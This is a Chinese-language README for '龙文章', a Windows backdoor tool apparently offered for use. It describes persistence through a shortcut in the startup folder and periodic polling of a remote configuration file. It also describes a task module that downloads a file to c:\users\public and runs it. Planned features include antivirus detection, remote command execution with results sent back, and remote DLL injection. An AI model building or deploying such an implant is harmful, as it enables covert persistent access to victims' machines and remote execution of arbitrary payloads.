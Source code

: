 # 龙文章

> 炮灰团团长 <我的团长我的团>

![龙文章](http://i0.sinaimg.cn/ent/v/m/2009-04-02/U2184P28T3D2452355F326DT20090402144113.jpg)

![龙文章](img.jpg)

- 使用方式

```
LongWenzhang.exe 快捷方式名 配置文件地址
LongWenzhang.exe aaa http://127.0.0.1/1.txt
```
## 功能

### 权限维持 (已实现)

- 启动目录

    > 制作本身的快捷方式放入启动目录

### 信息收集 (未实现)

- 杀软检测

### 任务模块 (已实现)
- 文件下载
  
## 配置文件内容
- http://127.0.0.1/s.txt

```
//获取任务间隔时间(分钟) 默认:30
Sleep = 30
//是否退出程序
Exit = false || true
//毁灭,退出程序并删除快捷方式后门,杀软报毒,代码注释掉了
Destruction = false || true
//配置文件的网络路径
InfoUrl = 

# 文件下载模块
[DownLoad]
//下载文件的地址
url = http://127.0.0.1/s.exe
//下载的文件是否运行
execute = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:\users\public\1.exe



# 以下为计划实现的功能
//获取任务时候发送http请求的各种请求头
[http]

//执行的命令,并将命令结果返回,需要配置服务端接收消息/文件
[callback]
command = 
back = 

//下载远程dll文件并注入
[DLL]
//下载文件的地址
url = http://127.0.0.1/s.dll
//下载的文件是否注入
injection = true || false
//执行文件是否需要参数,如果不需要参数,请设置为空
parameter = 
//文件下载保存路径,默认为`龙文章`所在路径
path = c:\users\public\1.exe
```
